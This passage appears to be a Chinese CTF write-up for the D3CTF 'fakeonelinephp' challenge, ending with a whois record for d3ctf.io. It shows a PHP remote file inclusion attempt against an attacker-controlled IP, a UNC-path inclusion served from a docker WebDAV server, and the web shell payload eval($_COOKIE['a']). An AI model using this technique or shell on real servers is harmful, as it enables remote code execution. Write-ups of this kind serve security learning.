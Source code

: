 ```

Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1

Warning: include(http://39.108.164.219:60005/1.txt): failed to open stream: no suitable wrapper could be found in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1

Warning: include(): Failed opening 'http://39.108.164.219:60005/1.txt' for inclusion (include_path='.;C:\Users\Public\Videos;\c:\php\includes;c:\php\pear;') in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1
```

虽然禁用了http协议,但是还是会发送请求

unc路径远程文件包含

一键启动一个webdav服务器

`docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav`然后把php文件放到/root/webdav/data里就行了

http://02f4483e31.fakeonelinephp.d3ctf.io/?orange=C:/Users/w1nd/AppData/Local/Temp/fffffffffuckccrf

eval($_COOKIE['a']);



whois

```
Domain Name: D3CTF.IO
Registry Domain ID: D503300001132938421-LRMS
Registrar WHOIS Server: whois.namesilo.com
Registrar URL: http://www.namesilo.com
Updated Date: 2019-10-14T20:31:26Z
Creation Date: 2019-08-15T11:56:00Z
Registry Expiry Date: 2020-08-15T11:56:00Z
Registrar Registration Expiration Date:
Registrar: Namesilo, LLC
Registrar IANA ID: 1479
Registrar Abuse Contact Email: 
Registrar Abuse Contact Phone: +1.4805240066
Reseller:
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Registrant Organization: See PrivacyGuardian.org
Registrant State/Province: AZ
Registrant Country: US
Name Server: DNS21.HICHINA.COM
Name Server: DNS22.HICHINA.COM
DNSSEC: unsigned

The Registrar of Record identified in this output may have an RDDS service that can be queried 
for additional information on how to contact the Registrant, Admin, or Tech contact of the 
queried domain name.
```
